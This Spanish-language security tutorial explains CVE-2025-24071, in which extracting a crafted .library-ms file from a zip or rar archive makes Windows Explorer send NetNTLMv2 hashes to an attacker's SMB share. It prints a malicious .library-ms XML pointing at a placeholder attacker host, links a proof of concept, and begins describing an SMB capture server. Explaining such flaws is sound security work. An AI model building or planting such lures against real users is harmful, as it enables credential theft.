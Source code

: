 
# Intrusión / Explotación
---
## Microsoft Windows File Explorer Spoofing Vulnerability (CVE-2025-24071)

Esta vulnerabilidad afecta a múltiples versiones de Windows 10, 11, Server 2012, 2016, 2019 y 2022. Permite a un atacante capturar hashes `NetNTLMv2` cuando la víctima extrae archivos `.library-ms` especialmente diseñados.  

> Un archivo `.library-ms` en Windows es un archivo de metadatos en formato XML que describe una biblioteca de documentos.
{: .notice--info}

### Understanding Vulnerability

La vulnerabilidad reside en la forma en la que Windows File Explorer maneja los archivos `.library-ms` dentro de archivos comprimidos.

Cuando un archivo `.library-ms` que contiene una ruta SMB es comprimido dentro de un archivo `.zip`/`.rar` y posteriormente se extrae, el Explorador de Windows analiza automáticamente el contenido del archivo comprimido a través de un mecanismo integrado de indexación. A continuación se muestra cómo luce un archivo `.library-ms` malicioso

~~~ xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <simpleLocation>
        <url>\\10.10.X.X\evil</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
~~~

La extracción y procesamiento del archivo comprimido (que contiene el archivo `.library-ms` anterior) resulta en tráfico hacia el recurso SMB que especificamos en el atributo `<url>`

### Exploiting

Existen diversas pruebas de concepto disponibles en [`Github`](https://github.com/ThemeHackers/CVE-2025-24071) que nos permiten crear tanto el archivo `.library-ms` como un archivo comprimido `.zip` o `.rar`, el cual es necesario ya que se necesita que la víctima extraiga el contenido del comprimido para iniciar tráfico SMB hacia nosotros.

A continuación iniciaremos un servidor `smb`, el cual se encargará de gestionar la autenticación NTLM

> La autenticación NTLM (`NT LAN Manager`) es un protocolo de Microsoft que utiliza un mecanismo de desafío/respuesta para **autenticar usuarios en redes Windows**, generando un hash a partir de la contraseña del usuario y un número aleatorio (desafío) para verificar la identidad en el servidor
{: .notice--info}
